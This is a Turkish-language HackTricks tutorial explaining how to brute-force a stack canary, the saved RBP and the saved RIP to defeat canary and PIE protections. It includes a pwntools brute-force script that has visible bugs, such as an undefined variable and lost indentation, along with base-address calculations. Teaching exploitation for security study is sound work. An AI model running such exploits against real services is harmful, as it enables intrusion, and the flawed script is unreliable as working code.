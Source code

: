 # Yığında BF Adresleri

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

**Bir canary ve PIE (Pozisyon Bağımsız Yürütülebilir) ile korunan bir ikiliyle karşı karşıyaysanız, muhtemelen bunları atlatmanın bir yolunu bulmanız gerekecektir.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`**'in, bir ikilinin bir canary ile korunduğunu bulamayabileceğini unutmayın, bu durum statik olarak derlenmişse ve işlevi tanımlayamıyorsa.\
Ancak, bir değerin bir işlev çağrısının başında yığında kaydedildiğini ve bu değerin çıkış yapmadan önce kontrol edildiğini fark ederseniz, bunu manuel olarak fark edebilirsiniz.
{% endhint %}

## Kaba Kuvvet Adresleri

**PIE'yi atlatmak** için bir **adres sızdırmanız** gerekmektedir. Ve eğer ikili herhangi bir adres sızdırmıyorsa, en iyi yapılacak şey, zayıf olan işlevde yığındaki **RBP ve RIP'yi kaba kuvvet uygulamaktır.**\
Örneğin, bir ikili hem bir **canary** hem de **PIE** kullanarak korunuyorsa, canary'yi kaba kuvvet uygulamaya başlayabilir, ardından **sonraki** 8 Bayt (x64) kaydedilmiş **RBP** ve **sonraki** 8 Bayt kaydedilmiş **RIP** olacaktır.

{% hint style="success" %}
Yığında bulunan dönüş adresinin genellikle ana ikili koduna ait olduğu varsayılır, bu da zayıflık ikili kodda bulunuyorsa genellikle geçerli olacaktır.
{% endhint %}

İkiliden RBP ve RIP'yi kaba kuvvet uygulamak için, bir geçerli tahmin edilen baytın doğru olduğunu programın bir çıktı verdiğini veya çökmediğini fark edebilirsiniz. Canary'yi kaba kuvvet uygulamak için sağlanan işlevle **aynı işlev** RBP ve RIP'yi kaba kuvvet uygulamak için kullanılabilir:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Son şey, PIE'ı yenmek için gereken **sızdırılan adreslerden yararlı adresleri hesaplamaktır**: **RBP** ve **RIP**.

**RBP** adresinden, **shell kodunuzu yığında nereye yazdığınızı hesaplayabilirsiniz**. Bu, _"/bin/sh\x00"_ dizesini yığının içine nereye yazacağınızı bilmek için çok faydalı olabilir. Sızdırılan RBP ve shell kodunuz arasındaki mesafeyi hesaplamak için sadece **RBP sızdırdıktan sonra bir kesme noktası koyabilir** ve **shell kodunuzun nerede bulunduğunu kontrol edebilirsiniz**, ardından, shell kodu ile RBP arasındaki mesafeyi hesaplayabilirsiniz:
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**'ten, **PIE ikili dosyasının başlangıç adresini** hesaplayabilirsiniz, bu da **geçerli bir ROP zinciri oluşturmak için ihtiyacınız olan şeydir.**\
Taban adresi hesaplamak için sadece `objdump -d vunbinary` komutunu çalıştırın ve en son adresleri kontrol edin:

![](<../../../.gitbook/assets/image (479).png>)

Bu örnekte, tüm kodları bulmak için yalnızca **1 Byte ve yarım** gerektiğini görebilirsiniz, sonra, bu durumda taban adresi **sızdırılan RIP ancak "000" ile biten** olacaktır. Örneğin, `0x562002970ecf` sızdırdıysanız, taban adres `0x562002970000` olacaktır.
```python
elf.address = RIP - (RIP & 0xfff)
```
## İyileştirmeler

[**Bu gönderiden bazı gözlemlere göre**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), RBP ve RIP değerlerinin sızdırıldığında, sunucunun bazı doğru olmayan değerlerle çökmediği ve BF betiğinin doğru değerleri aldığını düşüneceği mümkündür. Bu, **bazı adreslerin tam olarak doğru olanlar olmasa bile bunu bozmayabileceği mümkündür**.

Bu blog gönderisine göre sunucuya yapılan istekler arasına kısa bir gecikme eklemek önerilir.

{% hint style="success" %}
AWS Hacking öğrenin ve uygulayın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hackleme püf noktalarını paylaşın.

</details>
{% endhint %}
